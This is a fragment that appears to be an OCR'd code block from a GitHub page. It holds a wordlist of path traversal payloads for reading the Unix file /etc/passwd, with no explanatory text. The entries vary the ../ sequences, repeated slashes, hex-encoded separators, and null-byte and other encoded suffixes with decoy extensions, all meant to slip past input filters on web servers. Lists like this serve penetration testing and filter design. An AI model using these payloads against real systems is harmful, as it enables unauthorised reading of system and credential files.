 ```llvm
..0x5c..0x5c../etc/passwd
..0x5c../etc/passwd
..0x2fetc0x2fpasswd
..0x2fetc/passwd
..0x2f..0x2fetc0x2fpasswd
..0x2f..0x2fetc/passwd
..0x2f..0x2f..0x2fetc0x2fpasswd
..0x2f..0x2f..0x2fetc/passwd
..0x2f..0x2f..0x2f..0x2fetc0x2fpasswd
..0x2f..0x2f..0x2f..0x2fetc/passwd
..0x2f..0x2f..0x2f..0x2f..0x2fetc0x2fpasswd
..0x2f..0x2f..0x2f..0x2f..0x2fetc/passwd
..0x2f..0x2f..0x2f..0x2f../etc/passwd
..0x2f..0x2f..0x2f../etc/passwd
..0x2f..0x2f../etc/passwd
..0x2f../etc/passwd
../etc/passwd;index.html
../etc/passwd%FFindex.html
../etc/passwd%FF.jpg
../etc/passwd%FF
../etc/passwd%20index.html
../etc/passwd%20.jpg
../etc/passwd%20
../etc/passwd%0Dindex.html
../etc/passwd%0D.jpg
../etc/passwd%0D
../etc/passwd%09index.html
../etc/passwd%09.jpg
../etc/passwd%09
../etc/passwd%00index.html
../etc/passwd%00.jpg
../etc/passwd%00
../etc/passwd
..//etc/passwd
..//etc//passwd
..///etc/passwd
..///etc///passwd
..///../etc/passwd
..///..///etc/passwd
..///..///etc///passwd
..///..///../etc/passwd
..///..///..///etc/passwd
..///..///..///etc///passwd
..///..///..///../etc/passwd
..///..///..///..///etc/passwd
..///..///..///..///etc///passwd
..///..///..///..///../etc/passwd
..///..///..///..///..///etc/passwd
..///..///..///..///..///etc///passwd
..//../etc/passwd
..//..//etc/passwd
..//..//etc//passwd
..//..//../etc/passwd
..//..//..//etc/passwd
..//..//..//etc//passwd
..//..//..//../etc/passwd
..//..//..//..//etc/passwd
..//..//..//..//etc//passwd
..//..//..//..//../etc/passwd
..//..//..//..//..//etc/passwd
..//..//..//..//..//etc//passwd
../../etc/passwd;index.html
../../etc/passwd%FFindex.html
```